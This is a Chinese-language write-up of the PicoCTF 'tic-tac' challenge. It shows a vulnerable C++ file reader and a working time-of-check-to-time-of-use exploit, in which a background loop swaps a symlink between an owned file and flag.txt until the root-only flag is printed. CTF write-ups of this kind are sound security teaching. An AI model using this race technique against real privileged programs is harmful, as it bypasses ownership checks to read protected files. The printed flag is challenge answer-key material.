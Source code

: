 ```yaml
---
title: PicoCTF - tic-tac
tags: [PicoCTF, CTF, PWN]

category: "Security > Practice > PicoCTF > PWN"
---
```


# PicoCTF - tic-tac
## Background
[後端工程師面試考什麼 - Race Condition 篇](https://myapollo.com.tw/blog/interview-question-race-condition/)
[ [Day24]攻擊篇 ](https://ithelp.ithome.com.tw/articles/10208763)
> TOCTTOU
>
>Time of check to time of use
>在檢查和使用之間影響資源狀態的攻擊
>
>這種攻擊可能發生在共享資源中。
>可能導致程式在資源處於意外狀態時執行無效操作。
## Source code
:::spoiler Source code
```cpp=
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```
:::
## Recon
第一次寫這一種題目，具@ccccctw所說算是考古題了，看了[^pico_pwn_wp_maple_tic_tac][^pico_pwn_wp_martin_tic_tac][^pico_pwn_wp_aydin_tic_tac]還是不知道怎麼做出來的，所以問了@ccccctw
1. 可以看到source code是檢查root權限才可以讀到flag
2. 用兩次soft link讓這支程式呈現race condiction的狀態(不見得每次都會所以要靠賽)
3. 首先要先用一個infinity while loop創兩個soft link，然後在背景執行，第一次的soft link(`$ ln -sf test1 test`)是為了要過掉root權限的檢查，而第二次的soft link(`ln -sf flag.txt test`)是用來讀flag的
具體來說是這樣：
test的link會在flag.txt和test1之間切換，若我們用txtreader讀取test時，會有權限檢查，如果此時的link是test1，權限檢查就會通過，此時如果剛好test的link指向flag.txt，那我們就可以無縫的讀取到flag.txt的內容
5. 接著就可以用他的txtreader讀取test，如果幸運的話就可以讀到需要root權限的flag
## Exploit
```bash
$ ssh ctf-player@saturn.picoctf.net -p 59620
$ touch test1
$ while true; do ln -sf flag.txt test; ln -sf test1 test; done &
[1] 3039
$ for i in {1..1000};do ./txtreader test; done > output
$ cat output
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
picoCTF{ToctoU_!s_3a5y_007659c9}
```

Flag: `picoCTF{ToctoU_!s_3a5y_007659c9}`
## Reference
[^pico_pwn_wp_maple_tic_tac]:[tic-tac maple](https://blog.maple3142.net/2023/03/29/picoctf-2023-writeups/#tic-tac)
[^pico_pwn_wp_martin_tic_tac]:[picoCTF 2023 tic-tac](https://youtu.be/ONMVfKDqCr0)
[^pico_pwn_wp_aydin_tic_tac]:[ TicTac (TOCTOU attack) - Pico CTF 2023 - Race Condition ](https://youtu.be/b1-Aw96zysM)